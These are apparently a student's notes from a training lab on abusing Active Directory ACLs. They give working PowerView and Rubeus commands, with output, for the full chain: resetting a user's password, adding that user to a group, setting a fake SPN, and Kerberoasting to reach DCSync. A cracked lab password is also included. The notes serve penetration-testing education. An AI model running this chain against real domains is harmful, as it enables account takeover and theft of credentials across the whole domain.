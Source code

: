 # ACL Abuse Tactics

## Abusing ACLs

**Recap**

We have control ver wley, we know that we can chain attack and take control over adunn who can perform DCSync attack. This would give full control over the domain and allowing us to retrive NTLM password hash for all users in domain, then escalate privileges to Domain Admin and achive persistence. The method that we are going to use is

1. use wley to change password for damundsen
2. authenticate as damunbdsen and leverage genericall rights to add a user to Help Desk Level 1 group
3. Leverage GenericAll rights in Information Technology group to take control of adunn user

To perform the first step we can create a PSCredential object.

### **Change password for damundsen**

**Creating a PSCredential Object**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

**Creating a SecureString Object**

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password.

**Changing the User's Password**

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

* \-Credential ->pass in credential object we created

### Add damundsen to Help Desk Level 1

Next, we authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

**Creating a SecureString Object using damundsen**

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

**Adding damundsen to the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

**Confirming damundsen was Added to the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

Since we have `GenericAll` rights over this account, we can perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket

we must be a member of Information Technology group, since we added damundsen to Help Desk Level 1 group, we inherited rights via nested group membership.

### **Targetted Kerberoasting**

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

We created a fake SPN called 'notahacker/LEGIT'

**Kerberoasting with Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

[*] Hash : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

last is to crack the hash usign hashcat. After we have a cleartext password we can authenticate as adunn and perform DCSync attack.

## Revert

### **Removing the Fake SPN from adunn's Account**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### **Removing damundsen from the Help Desk Level 1 Group**

```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

**Confirming damundsen was Removed from the Group**

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Assessment

**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption><p>Change damundsens' password</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>add damundsens to Help Desk Level 1</p></figcaption></figure>

Targetted kerberoasting

```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

<figure><img src="../../../.gitbook/assets/image (19) (2).png" alt=""><figcaption><p>adunn:SyncMaster757</p></figcaption></figure>
